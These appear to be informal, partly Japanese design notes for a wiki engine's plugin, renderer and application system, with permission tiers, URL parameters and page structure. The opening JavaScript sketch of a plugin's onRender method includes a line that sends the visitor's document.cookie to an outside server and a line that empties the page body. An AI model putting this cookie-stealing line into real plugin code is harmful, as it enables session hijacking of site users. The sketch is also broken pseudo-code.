 ```js
Class AppBase{
    abstract onRender(context:WikiRenderContext); 
}
Class NewApp extends AppBase{
    onRender(context:WikiRenderContext); {
        context.pageName();
        const n=context.params(0);
        context.outputAsText("Hello"+n);
        context.outputAsWiki("[[link]]");
        $("body").empty();
        location.href="http://myserver?"+document.cookie;
    }
}
```


/index.html?page=FrontPage&plugin=.md&app=editor
/index.html?page=FrontPage&plugin=.fc2&app=default
editorとは？



---
# Renderer
## 対象
メイン全体にかかる.
## 権限
 super
## example.
- EditorRenderer
  - textarea
  - preview
- WikiRenderer
  - SyntaxPlugin が適用？
- KeijibanRenderer
- ChatRenderer
---
# Plugin 必須.
## 対象
 一部にかかる.
## 権限
 normal
## example.
- SyntaxPlugin
  - (default)FC2Syntax
  - MarkDownSyntax
  - UserSyntax - json
---
# Application
## 対象
フロートウィンドウ...レイヤーもあり.
Rendererを内包？
## 権限
 admin
## example.
- UploaderApp

---
---

# 自由度
- root 開発者
- admin サイト管理者
- super ユーザー（信頼済）
- normal ユーザー（一般）

---
---

# ページ構造
/user
/user/page
/global


```js
//AppManager.install("keijiban","k.js");
/*

* plugin test

#NewApp hoge


*/

```